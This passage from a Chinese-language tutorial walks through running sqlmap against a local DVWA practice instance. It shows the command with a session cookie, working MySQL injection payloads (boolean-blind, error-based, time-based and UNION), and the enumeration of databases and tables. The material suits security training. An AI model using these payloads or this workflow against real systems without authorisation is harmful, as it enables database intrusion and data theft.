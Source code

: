 #### sqlmap 自动注入

这样一个一个填很浪费时间，浪费精力。因此，我们可以使用 `sqlmap` 工具来进行自动化注入。按照说明配置好工具之后，输入下面的命令，就可以看到这里可以使用 `boolean-based blind` 、 `error-based` 、 `time-based blind` 和 `UNION query` 这几种方式进行注入：

```shell
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=233&Submit=Submit" --batch --cookie "PHPSESSID=ara6drni1r464b5vu2bu51cjk4; security=low"
# 注意 url 和 cookie 执行从浏览器抓包工具获取

# 结果
sqlmap identified the following injection point(s) with a total of 143 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: id=233' OR NOT 6220=6220#&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: id=233' AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7171716b71,(SELECT (ELT(9664=9664,1))),0x716b627871,0x78))s), 8446744073709551610, 8446744073709551610)))-- NInX&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=233' AND (SELECT 8305 FROM (SELECT(SLEEP(5)))aIhA)-- ALvX&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=233' UNION ALL SELECT CONCAT(0x7171716b71,0x6d6f645958746e434570746374515164675a5a5778666e517947427969725354467776425a66436e,0x716b627871),NULL#&Submit=Submit
---
```

然后，我们添加 `--bds` 标志，再次运行，就可以破解得到当前的数据库：

```
available databases [4]:
[*] dvwa
[*] information_schema
[*] mysql
[*] performance_schema
```

然后，我们可以通过标志 `-D dvwa --tables` 来指定要渗透测试的数据库，这样，我们就可以拿到该数据库下的表名：

```
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+
```
